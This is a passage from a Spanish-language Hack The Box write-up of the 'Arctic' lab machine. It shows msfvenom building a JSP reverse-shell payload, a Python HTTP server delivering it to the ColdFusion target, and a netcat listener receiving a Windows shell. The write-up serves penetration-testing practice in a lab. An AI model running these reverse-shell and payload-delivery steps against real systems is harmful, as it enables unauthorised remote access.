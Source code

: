 ![""](/assets/images/htb-arctic/arctic_shell.png)

Por lo tanto, necesitamos generar nuestro archivo que nos entable la reverse shell, así como compartir un servidor HTTP con python.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.13 lport=443 -f raw -o k4mishell.jsp
Payload size: 1496 bytes
Saved as: k4mishell.jsp
```

Cuando se sube el archivo, ejecutamos la tarea para descargar el archivo desde nuestra máquina a la máquina víctima.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [07/Sep/2021 22:36:44] "GET /k4mishell.jsp HTTP/1.1" 200 -
```

Nos dirigimos a la ruta `http://10.10.10.11:8500/CFIDE/` y observamos nuestro archivo. Ahora nos ponemos en escucha por el puerto 443 y ejecutamos nuestra reverse shell.

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.11] 49649
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```
